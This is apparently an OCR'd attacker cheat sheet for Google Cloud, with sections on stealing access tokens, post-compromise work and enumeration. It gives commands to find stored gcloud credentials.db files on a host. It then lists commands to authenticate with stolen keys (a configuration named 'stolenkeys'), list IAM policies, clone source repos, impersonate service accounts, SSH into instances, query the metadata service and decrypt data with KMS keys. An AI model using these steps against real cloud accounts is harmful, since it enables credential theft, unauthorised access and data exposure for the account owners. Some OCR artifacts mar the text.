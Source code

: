 ### Steal Access Tokens:
	• Google JSON Tokens and credentials.db
	• JSON tokens typically used for service account access to GCP
	• If a user authenticates with gcloud from an instance their creds get stored here:
		~/.config/gcloud/credentials.db
		sudo find /home -name "credentials.db"
	• JSON can be used to authenticate with gcloud and ScoutSuite
	
### Post Compromise:
	• Cloud Storage, Compute, SQL, Resource manager, IAM
	• ScoutSuite from NCC group https://github.com/nccgroup/ScoutSuite
	• Tool for auditing multiple different cloud security providers
	• Create Google JSON token to auth as service account
	
## Enumeration:
#### Authentication with gcloud and retrieve info
```bash
gcloud auth login
gcloud auth activate-service-account --key-file creds.json
gcloud auth activate-service-account --project=<projectid> --key-file=filename.json
gcloud auth list
gcloud init
gcloud config configurations activate stolenkeys
gcloud config list
gcloud organizations list
gcloud organizations get-iam-policy <org ID>
gcloud projects get-iam-policy <project ID>
gcloud iam roles list --project=<project ID>
gcloud beta asset search-all-iam-policies --query policy:"projects/xxxxxxxx/roles/CustomRole436" --project=xxxxxxxx
gcloud projects list
gcloud config set project <project name>
gcloud services list
gcloud config set project [Project-Id]
gcloud source repos list
gcloud source repos clone <repo_name>
```

#### Virtual Machines
```bash
gcloud compute instances list
gcloud compute instances list --impersonate-service-account AccountName
gcloud compute instances list --configuration=stolenkeys
gcloud compute instances describe <instance id>
gcloud compute instances describe <InstanceName> --zone=ZoneName --format=json | jq -c '.serviceAccounts[].scopes[]'
gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"

# Puts public ssh key onto metadata service for project
gcloud compute ssh <local host>
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H &#39;Metadata-Flavor:Google’

# Use Google keyring to decrypt encrypted data
gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global
```
